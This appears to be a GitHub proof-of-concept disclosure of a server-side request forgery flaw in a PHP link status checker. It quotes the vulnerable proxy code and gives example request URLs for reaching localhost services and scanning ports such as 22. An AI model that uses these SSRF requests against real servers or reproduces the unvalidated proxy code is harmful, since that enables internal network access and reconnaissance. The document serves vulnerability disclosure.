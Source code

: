 # Web Link Extractor SSRF Proof-Of-Concept

**Vulnerability:** Server-Side Request Forgery (SSRF) in PHP proxy
<br>
**Location:** ```index.php - proxy parameter```
<br>
**Impact:** Access to internal services, port scanning, cloud metadata access, potential internal network compromise.
<br>
**Source Code:** [Web Link Extractor v1.0](https://www.sourcecodester.com/php/18275/link-status-checker-using-php-and-javascript-source-code.html)
<br>
<br>
<br>
**Usage:** ```https://example.com/?proxy=http://localhost/index.php```

![](./pocimage.png)

-----

### Why This Code is Vulnerable to SSRF
1. User-Controlled Input Without Proper Validation
```php
$url = $_GET['proxy']; // Directly takes user input
The code takes the proxy parameter directly from the URL without proper sanitization
```
This is the root cause of the SSRF vulnerability.

2. Insufficient URL Validation.
```php
if (!filter_var($url, FILTER_VALIDATE_URL)) {
    header('HTTP/1.1 400 Bad Request');
    exit('Invalid URL');
}
```
```FILTER_VALIDATE_URL``` only checks if the string looks like a URL

It doesn't validate whether the URL points to internal/restricted resources

Attackers can pass any URL that looks valid

3. Protocol Whitelisting Bypass
```php
$urlParts = parse_url($url);
if (!in_array($urlParts['scheme'], ['http', 'https'])) {
    header('HTTP/1.1 403 Forbidden');
    exit('Protocol not allowed');
}
```
This only checks the URL scheme (http/https)

However, attackers can still access internal services using http:// or https://

The restriction only blocks non-HTTP protocols, not internal targets

4. Dangerous Function: file_get_contents()
```php
$content = @file_get_contents($url, false, $context);
```
```file_get_contents()``` can make HTTP requests when given a URL

It follows redirects and can access internal network resources

The @ operator suppresses errors, making exploitation easier

5. No Network Restrictions
```php
$context = stream_context_create([
    'http' => [
        'timeout' => 5, // 5 second timeout
        'ignore_errors' => true // Get content even if HTTP error
    ]
]);
```
No restrictions on target IP addresses or domains

Can access localhost (127.0.0.1), internal network, or cloud metadata services

ignore_errors: true means it will return content even from error responses

------

### How the Exploitation Works
#### Basic SSRF Request
```text
http://localhost/link-status-checker/?proxy=http://google.com
PHP receives http://google.com as the target
```

Makes request to Google and returns the content

#### Internal Service Access
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:80
PHP makes request to local port 80
```

Returns content from the local web server

#### Port Scanning
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:22
PHP tries to connect to SSH port (22)
```

If port is open but not HTTP: "Failed to fetch URL"

If port is closed: "Connection refused"

